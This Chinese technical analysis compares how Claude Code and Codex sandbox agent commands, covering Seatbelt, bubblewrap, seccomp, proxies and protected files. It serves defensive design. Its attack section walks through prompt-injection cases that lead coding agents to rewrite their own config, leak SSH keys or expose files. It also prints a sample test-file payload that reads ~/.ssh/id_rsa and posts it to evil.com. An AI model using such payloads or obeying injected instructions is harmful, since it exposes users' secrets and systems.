




# Agent 沙箱实现深度对比：Claude Code vs Codex

> 基于 Claude Code v2.1.85 bundle 逆向 + `anthropic-experimental/sandbox-runtime` 开源源码 + Codex `codex-rs/sandboxing/` 源码分析
>
> **核心发现**：Claude Code 的沙箱并非"未知"——它是完全开源的 [`anthropic-experimental/sandbox-runtime`](https://github.com/anthropic-experimental/sandbox-runtime)，并在 Anthropic 工程博客中有详细的设计解释。

---

## 目录

1. [为什么之前说"不知道"？](#1-为什么之前说不知道)
2. [Claude Code 沙箱完整架构](#2-claude-code-沙箱完整架构)
   - 2.7 [为什么需要两层？——从真实攻击事件说起](#27-为什么需要两层从真实攻击事件说起)
   - 2.8 [沙箱作用范围：并非所有操作都在沙箱内](#28-沙箱作用范围并非所有操作都在沙箱内)
3. [Codex 沙箱完整架构](#3-codex-沙箱完整架构)
4. [并排对比](#4-并排对比)
5. [实现细节深度拆解](#5-实现细节深度拆解)
6. [安全限制与已知弱点](#6-安全限制与已知弱点)
7. [实现建议](#7-实现建议)
8. [附录：源码位置索引](#附录源码位置索引)

---

## 1. 为什么之前说"不知道"？

先前文档（`claude-code-permission-system.md` §8.3）声称：

> "使用 `@anthropic-ai/sandbox-runtime`，基于隔离运行时限制命令执行（具体实现未在 bundle 中暴露，可能是 seccomp、Docker 容器、eBPF 或其他机制）"

**这是错误的。** 原因分析：

1. **沙箱代码完整存在于 bundle 中**。在 `cli.beautified.js` 的 L219870–L220860，包含：
   - 完整的 macOS Seatbelt (SBPL) profile 生成代码
   - 完整的 Linux bubblewrap (`bwrap`) 命令构建代码
   - seccomp BPF filter 加载和 `apply-seccomp` 二进制调用代码
   - HTTP/SOCKS5 代理服务器的初始化代码
   - 沙箱违规监控（macOS log stream + `Sandbox:` 关键词检测）

2. **整个沙箱运行时已开源**。`anthropic-experimental/sandbox-runtime` 是一个完整的 TypeScript/Node.js 包，可独立使用。

3. **Anthropic 发布了工程博客**。[Beyond Permission Prompts: Making Claude Code More Secure and Autonomous](https://www.anthropic.com/engineering/claude-code-sandboxing) 详细解释了设计动机和架构。

之前分析遗漏的原因：搜索关键词过于聚焦"权限"而非"沙箱"，导致未定位到 bundle 中 L219870+ 的沙箱实现代码。

---

## 2. Claude Code 沙箱完整架构

### 2.1 架构总览



### 2.2 macOS Seatbelt (sandbox-exec)

Claude Code 在 macOS 上通过 `sandbox-exec -p <profile>` 执行命令，其中 profile 是动态生成的 SBPL (Seatbelt Profile Language)。

**Bundle 中的完整 SBPL profile** (L220112)：

```scheme
(version 1)
(deny default (with message "<LogTag>"))

; === 进程权限 ===
(allow process-exec)
(allow process-fork)
(allow process-info* (target same-sandbox))
(allow signal (target same-sandbox))

; === Mach IPC — 仅特定服务 ===
(allow mach-lookup
  (global-name "com.apple.audio.systemsoundserver")
  (global-name "com.apple.distributed_notifications@Uv3")
  (global-name "com.apple.FontObjectsServer")
  (global-name "com.apple.fonts")
  (global-name "com.apple.logd")
  (global-name "com.apple.lsd.mapdb")
  (global-name "com.apple.PowerManagement.control")
  (global-name "com.apple.system.logger")
  (global-name "com.apple.system.notification_center")
  (global-name "com.apple.system.opendirectoryd.libinfo")
  (global-name "com.apple.system.opendirectoryd.membership")
  (global-name "com.apple.bsd.dirhelper")
  (global-name "com.apple.securityd.xpc")
  (global-name "com.apple.coreservices.launchservicesd")
)

; === sysctl 白名单（59 条精确项）===
(allow sysctl-read
  (sysctl-name "hw.activecpu")
  (sysctl-name "hw.memsize")
  (sysctl-name "kern.hostname")
  (sysctl-name "kern.osversion")
  ; ... 55 条更多 ...
  (sysctl-name-prefix "machdep.cpu.")
)

; === 文件 I/O ===
(allow file-ioctl (literal "/dev/null"))
(allow file-ioctl (literal "/dev/zero"))
(allow file-ioctl (literal "/dev/random"))
(allow file-ioctl (literal "/dev/urandom"))
(allow file-ioctl (literal "/dev/dtracehelper"))
(allow file-ioctl (literal "/dev/tty"))
```

**关键设计要点**：
- **deny default**：一切默认禁止，然后逐项开放
- **mach-lookup 精确控制**：只允许访问特定系统服务，不允许通配符
- **sysctl 白名单**：59 条精确的 sysctl 读取权限（如 `hw.memsize`, `kern.osversion`）
- **可选 trustd.agent**：当需要 Go TLS 验证时，通过 `enableWeakerNetworkIsolation` 开放
- **move-blocking**：`generateMoveBlockingRules()` 生成 `(deny file-write-unlink ...)` 规则，防止通过 `mv`/`rename` 绕过写保护
- **Seatbelt 规则优先级**：后声明的规则覆盖先声明的（读: allow→deny→re-allow；写: allow→deny）

### 2.3 Linux bubblewrap (bwrap)

**完整的 bwrap 命令构建** (L219904-L219974)：

```bash
bwrap \
  --new-session \          # 新会话 (防止终端信号泄露)
  --die-with-parent \      # 父进程退出时自动终止
  --unshare-net \          # 移除网络命名空间 (网络隔离核心)
  --unshare-pid \          # PID 命名空间隔离
  --dev /dev \             # 挂载 /dev
  --proc /proc \           # 挂载 /proc (可选，Docker 中禁用)
  --bind <http_socket> <http_socket> \   # 绑定 HTTP 代理 socket
  --bind <socks_socket> <socks_socket> \ # 绑定 SOCKS5 代理 socket
  --setenv HTTP_PROXY ... \              # 设置代理环境变量
  --setenv HTTPS_PROXY ... \
  --setenv ALL_PROXY ... \
  # 文件系统挂载规则 (由 readConfig/writeConfig 驱动)
  --ro-bind /path /path \  # 只读绑定
  --bind /path /path \     # 读写绑定
  --tmpfs /denied/path \   # 用 tmpfs 遮蔽拒绝目录
  -- bash -c "apply-seccomp <bpf_filter> bash -c '<user_command>'"
```

### 2.4 seccomp BPF (Linux)



**seccomp BPF filter 源码**（`vendor/seccomp-src/seccomp-unix-block.c`）：
```c
// 默认允许所有 syscall
ctx = seccomp_init(SCMP_ACT_ALLOW);
// 仅阻止 socket(AF_UNIX, ...) → 返回 EPERM
// 使用 MASKED_EQ + 0xffffffff 掩码：
// 因为 amd64 上 socket() 的 domain 参数是 32-bit int，
// 但寄存器是 64-bit，上 32 位可能有脏数据
seccomp_rule_add(ctx, SCMP_ACT_ERRNO(EPERM), SCMP_SYS(socket), 1,
    SCMP_A0(SCMP_CMP_MASKED_EQ, 0xffffffff, AF_UNIX));
```

**`apply-seccomp.c`**：读取预编译 BPF → `prctl(PR_SET_NO_NEW_PRIVS)` → `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER)` → `execvp()`。编译为**静态二进制**，无运行时依赖。

**两阶段设计** 的精妙之处：
1. socat 需要创建 Unix domain socket 来桥接网络流量
2. 但用户命令不应该能创建新的 Unix socket（可能用于逃逸）
3. 所以 seccomp filter 在 socat 启动**之后**、用户命令执行**之前**加载

### 2.5 网络代理架构

```
┌────────────────────────────────────────────────┐
│                  沙箱内部                        │
│                                                │
│  用户命令 ──HTTP───→ socat ──────────────────────┤
│            ──SOCKS5─→ socat ────────────────────┤
│                                                │
│  环境变量:                                      │
│    HTTP_PROXY, HTTPS_PROXY (http)              │
│    ALL_PROXY, FTP_PROXY (socks5h)              │
│    GIT_SSH_COMMAND (nc/socat ProxyCommand)     │
│    DOCKER_HTTP_PROXY, CLOUDSDK_PROXY_*         │
│    GRPC_PROXY, RSYNC_PROXY                     │
│    NO_PROXY=localhost,127.0.0.1,::1,           │
│      10.0.0.0/8,172.16.0.0/12,192.168.0.0/16  │
└──────────────┬──────────────┬──────────────────┘
               │ Unix Socket  │ Unix Socket
┌──────────────▼──────────────▼──────────────────┐
│                  宿主机                          │
│                                                │
│  HTTP Proxy (动态端口)                          │
│    ├─ 域名 denylist 优先检查                     │
│    ├─ 域名 allowlist 检查                        │
│    ├─ CONNECT 方法代理 HTTPS                     │
│    └─ MITM 代理支持 (可选 socketPath + domains)  │
│                                                │
│  SOCKS5 Proxy (动态端口)                        │
│    ├─ 域名 allowlist/denylist 检查               │
│    └─ TCP 连接代理                               │
│                                                │
│  网络注入防御:                                    │
│    ├─ IPv6 zone-ID 检测 (拒绝 isIP 且含 *.allowed.com) │
│    ├─ null-byte 注入检测 (isValidHost 过滤控制字符)│
│    └─ inet_aton 短写规范化 (canonicalizeHost)     │
│       (如 2852039166 → 169.254.169.254)         │
└────────────────────────────────────────────────┘
```

> [!IMPORTANT]
> `NO_PROXY` 包含 RFC 1918 私有网络范围（10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16），确保本地开发服务（如 Docker daemon、本地数据库）不经过代理。`GIT_SSH_COMMAND` 在 macOS 上通过 `nc -X 5 -x`、Linux 上通过 `socat PROXY:` 路由 SSH 流量。

### 2.6 自动保护路径（Mandatory Deny Paths）

即使在 `allowWrite: ["."]` 配置下，以下文件永远不可写：

| 类别 | 文件/目录 |
|------|----------|
| Shell 配置 | `.bashrc`, `.bash_profile`, `.zshrc`, `.zprofile`, `.profile` |
| Git 配置 | `.gitconfig`, `.gitmodules`, `.git/hooks/`, `.git/config` |
| IDE 配置 | `.vscode/`, `.idea/` |
| Agent 配置 | `.claude/commands/`, `.claude/agents/` |
| 其他 | `.ripgreprc`, `.mcp.json` |

**Linux 限制**：mandatory deny 仅能阻止已存在的文件（bwrap 的 bind-mount 机制无法阻止创建新文件）。Linux 上使用 ripgrep 扫描 writable root 下的子目录（默认深度 3，可配置 `mandatoryDenySearchDepth: 1-10`）。macOS 的 glob 模式 + `globToRegex()` 可以阻止新文件创建。

**额外安全**：`isSymlinkOutsideBoundary()` 检测符号链接是否指向预期路径之外（防止通过 symlink 逃逸沙箱）。特殊处理 macOS `/tmp` → `/private/tmp` 和 `/var` → `/private/var` 的合法系统符号链接。

> [!WARNING]
> **两层保护，不同 DANGEROUS_FILES**：Bundle 中存在**两套**危险文件列表：
> 1. **沙箱层** (L219465, sandbox-runtime)：9 个文件 — `.gitconfig`, `.gitmodules`, `.bashrc`, `.bash_profile`, `.zshrc`, `.zprofile`, `.profile`, `.ripgreprc`, `.mcp.json`
> 2. **权限引擎层** (L472172, WriteGuard)：10 个文件 — 在沙箱层基础上多了 **`.claude.json`**；目录列表也多了 **`.claude`** 整个目录（沙箱层仅保护 `.claude/commands/` 和 `.claude/agents/`）
>
> 开源 `sandbox-runtime` 仅包含第 1 层。第 2 层属于 Claude Code 自身的权限引擎，是沙箱之上的额外防线。

### 2.7 为什么需要两层？——从真实攻击事件说起

两层保护不是冗余设计，而是因为它们解决**完全不同维度**的安全问题。用一个比喻：

> **沙箱层** = 小区的围墙和门禁（OS 级别，物理隔离，覆盖所有进程）
> **权限引擎层** = 物业管家在门口核验快递单（应用级别，逻辑审批，仅覆盖 tool_use 调用）

下面通过真实发生过的安全事件来解释每一层挡住了什么、挡不住什么。

#### 攻击类型一：Prompt Injection → 修改 Agent 自身配置 → 提权

**真实案例：GitHub Copilot CVE-2025-53773（CVSS 7.8）**

攻击链：
```
1. 攻击者在 README.md 中嵌入隐藏的 Unicode prompt injection
2. 开发者让 Copilot 分析该 README
3. Copilot 被诱导修改 .vscode/settings.json
4. 注入 {"chat.tools.autoApprove": true}（即 "YOLO Mode"）
5. 此后 Copilot 可以不经用户确认执行任意 shell 命令
6. 攻击者通过后续 prompt injection 获得完整 RCE
```

**两层防御分析**：
| 层 | 是否拦截？ | 原因 |
|---|---|---|
| 沙箱层 | ❌ **无法拦截** | `.vscode/settings.json` 在 mandatory deny 列表中 → ✅ **实际上 Claude Code 沙箱 CAN 拦截**（`.vscode/` 整个目录被保护）。但 Copilot 没有类似沙箱。 |
| 权限引擎层 | ✅ **可拦截** | 权限引擎层保护 `.vscode/` → 写入需要用户审批 |

> [!IMPORTANT]
> 这个案例正是 Claude Code 在两个层都保护 `.vscode/` 的原因。如果 Claude 只有权限引擎而没有沙箱，一个 Claude 执行的 Python 子脚本仍然可以绕过权限引擎直接写入 `.vscode/settings.json`。沙箱在 OS 级别拦截了整个进程树的写入。

#### 攻击类型二：间接 Prompt Injection → 数据泄露

**真实案例：Google Jules "Zombie Agent"（Johann Rehberger, 2025）**

攻击链：
```
1. 攻击者在 GitHub Issue/PR 的 Markdown 中嵌入 prompt injection
2. 用户让 Jules 分析该 Issue
3. Jules 被诱导在 Markdown 中插入隐形图片标签：
   
4. 当渲染 Markdown 时，浏览器自动 GET 该 URL → SSH 密钥泄露
5. 由于 Jules 有不受限的出站网络 → 也可以直接 curl 泄露
```

**两层防御分析**：
| 层 | 是否拦截？ | 原因 |
|---|---|---|
| 沙箱层 | ✅ | 网络隔离：`evil.com` 不在 allowedDomains → 出站请求被代理拒绝<br/>文件隔离：`~/.ssh/` 不在 allowRead → 读取被 OS 拒绝 |
| 权限引擎层 | ⚠️ 可能失效 | LLM 分类器可能认为"读取 SSH 密钥"是"帮用户配置 Git"的合理操作 |

> 这个案例说明为什么**沙箱层是必须的**——权限引擎依赖 LLM 判断"意图"，而 LLM 正是被 prompt injection 劫持的那个组件。让被劫持的 LLM 来判断被劫持的 LLM 的意图是否合法，这是循环论证。沙箱不关心"意图"，只关心"能不能访问"。

#### 攻击类型三：多阶段 Prompt Injection → 启动本地服务器泄露文件

**真实案例：Devin AI Agent 攻击演示（2025）**

攻击链：
```
1. 攻击者将恶意指令分散在两个链接的网页中（绕过单页检测）
2. 用户让 Devin 查阅这两个技术文档
3. Devin 先读第一个页面（包含"请继续阅读第二个链接"的指令）
4. 读取第二个页面后，拼接出完整的恶意指令：
   "启动一个 HTTP 服务器暴露当前目录的所有文件"
5. Devin 执行 python3 -m http.server 8080
6. 攻击者访问 http://<victim-ip>:8080 下载所有源码
```

**两层防御分析**：
| 层 | 是否拦截？ | 原因 |
|---|---|---|
| 沙箱层 | ✅ | 网络隔离：`--unshare-net` 移除网络命名空间 → 外部无法访问沙箱内端口<br/>即使绑定成功，也无法从外部路由到沙箱内 |
| 权限引擎层 | ⚠️ 可能失效 | `python3 -m http.server` 看起来像正常开发命令 |

#### 攻击类型四：MCP Tool 欺骗 → 设备控制

**真实案例：Cursor IDE CVE-2025-54135 / CVE-2025-54136**

攻击链：
```
1. 攻击者创建恶意 MCP server，伪装为合法工具
2. 用户安装该 MCP server（或 MCP server 被 supply chain 攻击篡改）
3. MCP tool 的 description 中包含 prompt injection
4. Cursor 调用该工具时，被诱导执行任意 shell 命令
5. 在 Cursor 的环境中没有沙箱 → 完整 RCE
```

**两层防御分析**：
| 层 | 是否拦截？ | 原因 |
|---|---|---|
| 沙箱层 | ✅ | 即使 MCP tool 诱导 agent 执行恶意命令，沙箱限制了该命令的 blast radius |
| 权限引擎层 | ✅ | MCP tool 的 description 不应该被当作可信指令 → 但实际上很多实现会信任 tool description |

#### 攻击类型五：子进程逃逸权限引擎

**这是两层设计最关键的场景——没有沙箱层就无法防御：**

```
1. 用户让 Claude: "帮我跑一下 npm test"
2. 权限引擎批准（npm test 在安全白名单中）
3. npm test 触发 jest，jest 加载 test 文件
4. 某个 test 文件包含 prompt injection（通过被污染的依赖注入）：
   const fs = require('fs');
   const key = fs.readFileSync(process.env.HOME + '/.ssh/id_rsa');
   fetch('https://evil.com/steal', {method: 'POST', body: key});
5. 权限引擎完全不知道这段代码在执行（它只审批了 "npm test"）
```

**关键区别**：
- **权限引擎**只在 Claude 的 tool_use 层面检查，它审批的是 `Bash(command="npm test")`
- 审批之后，`npm test` → `jest` → `test.js` → `fetch()` 这条链路权限引擎完全**不可见**
- 只有 **OS 级沙箱**能拦截整个进程树：`~/.ssh/` 不可读，`evil.com` 不可访问

#### 攻击类型六：Agent 自我提权

**真实案例：OpenHands CVE-2026-33718（命令注入）**

```
1. 攻击者构造恶意 git repo URL，包含 shell 元字符
2. Agent 执行 git clone <malicious-url>
3. URL 中的注入字符逃逸为 shell 命令
4. 虽然在沙箱中执行，但如果 agent 能修改自己的配置…
5. 修改权限配置 → 下次运行不再有沙箱 → 完整逃逸
```

这就是 Claude Code 权限引擎层保护 **`.claude.json`** 和 **`.claude/`** 的原因——防止 agent 修改自己的安全配置实现自我提权。沙箱不理解这个语义（`.claude.json` 对 OS 来说只是普通文件），但权限引擎知道它是"钥匙保险箱"。

#### 总结：两层防御矩阵



> [!TIP]
> **一句话总结**：权限引擎防的是"Agent 主动做坏事"（tool_use 级别的逻辑审批），沙箱防的是"Agent 做了看似合法的事但其子进程/脚本偷偷做坏事"（进程树级别的硬隔离）。前者管"应不应该触及"，后者管"能不能触及"。两者一个在应用层判断意图，一个在内核层强制边界——缺任何一个都有致命盲区。

### 2.8 沙箱作用范围：并非所有操作都在沙箱内

> [!WARNING]
> **Claude Code 和 Codex 的沙箱覆盖范围不同，且都不是 100% 覆盖所有操作。**

#### Claude Code：仅 Bash Tool 在沙箱中

根据 Anthropic 工程博客（[Beyond Permission Prompts](https://www.anthropic.com/engineering/claude-code-sandboxing)，2025.10.20）：

> "In Claude Code, **we use this runtime to sandbox the bash tool**, which allows Claude to run commands within the defined limits you set."

这意味着：

```
┌─────────────────────────────────────────────────────┐
│                Claude Code 工具列表                   │
├─────────────┬────────────┬──────────────────────────┤
│ 工具         │ 是否沙箱？  │ 保护方式                  │
├─────────────┼────────────┼──────────────────────────┤
│ Bash        │ ✅ 沙箱内    │ OS 沙箱 + 权限引擎        │
│ Write       │ ❌ 沙箱外    │ 仅权限引擎（Node.js API）  │
│ Edit        │ ❌ 沙箱外    │ 仅权限引擎（Node.js API）  │
│ Read        │ ❌ 沙箱外    │ 仅权限引擎（Node.js API）  │
│ MultiEdit   │ ❌ 沙箱外    │ 仅权限引擎（Node.js API）  │
│ Glob/Grep   │ ❌ 沙箱外    │ 仅权限引擎（Node.js API）  │
│ WebSearch   │ ❌ 沙箱外    │ 内建过滤                   │
│ MCP Tools   │ ⚠️ 视情况   │ MCP server 可独立沙箱      │
└─────────────┴────────────┴──────────────────────────┘
```

**为什么 Write/Edit 不走沙箱？**
1. **Write/Edit 是 Claude Code 自身进程内的 Node.js `fs.writeFileSync()` 调用**——不涉及子进程创建，沙箱（bwrap/sandbox-exec）是基于进程的，无法隔离同一进程内的 API 调用
2. 这些工具的安全由**权限引擎**保障：每次写操作前检查路径是否在 allowWrite 列表中、mandatory deny 列表是否匹配
3. **博客原文证实**：sandbox 解决的是 "scripts, programs, or subprocesses that are spawned by the command" —— 子进程问题

**Bundle 验证** (L231108)：
```javascript
// 仅在 useSandbox=true (Bash tool) 时调用 wrapWithSandbox
if (O) {  // O = useSandbox
    W = await z7.wrapWithSandbox(W, v, void 0, K);
}
```

Write/Edit 工具在 bundle 中直接调用 `fs.writeFileSync()` / `fs.readFileSync()`，没有经过 `wrapWithSandbox`。

#### Codex：Shell exec + apply_patch 都在沙箱中

Codex 的覆盖范围更广：

```
┌─────────────────────────────────────────────────────┐
│                Codex 工具列表                         │
├─────────────┬────────────┬──────────────────────────┤
│ 工具         │ 是否沙箱？  │ 保护方式                  │
├─────────────┼────────────┼──────────────────────────┤
│ shell       │ ✅ 沙箱内    │ OS 沙箱 + 审批策略        │
│ apply_patch │ ✅ 沙箱内    │ OS 沙箱（自调用模式）      │
│ read_file   │ ❌ 沙箱外    │ 文件系统策略检查           │
│ list_dir    │ ❌ 沙箱外    │ 文件系统策略检查           │
└─────────────┴────────────┴──────────────────────────┘
```

Codex 的 `apply_patch`（文件写入）通过 `codex --codex-run-as-apply-patch` **自调用**方式执行，整个写操作子进程运行在 `SandboxAttempt` 环境中（源码：`core/src/tools/runtimes/apply_patch.rs` L208-231）。这意味着：
- 文件写入受到 OS 级别的文件系统策略限制（不仅仅是应用层检查）
- 即使 `apply_patch` 的代码有 bug，沙箱也会限制其 blast radius

#### 这意味着什么？

| 场景 | Claude Code | Codex |
|------|-------------|-------|
| `Bash("cat ~/.ssh/id_rsa")` | ✅ 沙箱拦截 | ✅ 沙箱拦截 |
| `Write(path="~/.bashrc", ...)` | ⚠️ 仅权限引擎拦截 | ✅ 沙箱拦截 |
| `npm test` 中的恶意子脚本 | ✅ 沙箱拦截（子进程继承） | ✅ 沙箱拦截 |
| Claude/Codex 进程自身被 RCE | ❌ 沙箱无效（主进程不在沙箱中） | ❌ 沙箱无效（主进程不在沙箱中） |

> [!IMPORTANT]
> **共同的限制**：两者的沙箱都是"自我强制"的——Claude Code / Codex 的主进程本身**不**运行在沙箱中。沙箱只包裹由主进程 spawn 出的子进程。这是架构决定的：主进程需要不受限地访问 API（与 Anthropic/OpenAI 通信）、读取配置文件、管理 UI。如果主进程自身被攻陷（例如通过 Node.js/Rust 的 0-day），沙箱不会生效。

---

## 3. Codex 沙箱完整架构

### 3.1 架构总览



### 3.2 多平台沙箱实现

#### macOS: Seatbelt

Codex 的 Seatbelt 实现在 `codex-rs/sandboxing/src/seatbelt_permissions.rs`：

```rust
// 基础 Seatbelt profile (seatbelt_base_policy.sbpl)
// + 动态扩展 (SeatbeltExtensionPolicy)
pub(crate) fn build_seatbelt_extensions(
    extensions: &MacOsSeatbeltProfileExtensions,
) -> SeatbeltExtensionPolicy {
    // 支持的扩展:
    // - macOS Preferences (Read/ReadWrite): cfprefsd.daemon/agent
    // - macOS Automation (AppleScript): appleevent-send + bundle ID 过滤
    // - macOS Launch Services: lsopen
    // - macOS Accessibility: axserver
    // - macOS Calendar: CalendarAgent
    // - macOS Reminders: remindd
    // - macOS Contacts (Read/ReadWrite): AddressBook, tccd
}
```

#### Linux: Landlock + bubblewrap

Codex 在 `codex-rs/linux-sandbox/` 实现了 landlock + bubblewrap 双层防护：
- **Landlock**：Linux 5.13+ 的轻量级文件系统沙箱
- **bubblewrap**：命名空间隔离（net, pid, mount）
- **execve 拦截**：通过 `ptrace` 或 `seccomp` 拦截子进程 `execve` 系统调用

#### Windows: Windows Sandbox

`codex-rs/windows-sandbox-rs/`：
- 使用 Windows 用户隔离（沙箱用户账户）
- 文件系统 ACL 控制
- 需要管理员权限

### 3.3 策略转换 (Policy Transforms)

`policy_transforms.rs` 实现了策略的组合与变换：

```rust
// 权限合并
pub fn merge_permission_profiles(base, additional) -> PermissionProfile
// 权限交集（用于约束传递）
pub fn intersect_permission_profiles(requested, granted) -> PermissionProfile
// 将附加权限应用到沙箱策略
fn sandbox_policy_with_additional_permissions(sandbox, additional) -> SandboxPolicy
```

这意味着 Codex 的沙箱策略可以被工具请求**动态扩展**——例如一个 tool 可以声明需要额外的文件系统权限，经用户批准后在运行时注入沙箱策略。

---

## 4. 并排对比

| 维度 | Claude Code | Codex |
|------|-------------|-------|
| **实现语言** | TypeScript (Node.js) | Rust |
| **开源状态** | ✅ `anthropic-experimental/sandbox-runtime` | ✅ `codex-rs/sandboxing/` |
| **沙箱覆盖范围** | **仅 Bash tool**（Write/Edit/Read 不经过沙箱） | **Shell + apply_patch**（文件写入也在沙箱中） |
| **macOS 沙箱** | sandbox-exec + 动态 SBPL | sandbox-exec + SBPL 模板 + 扩展 |
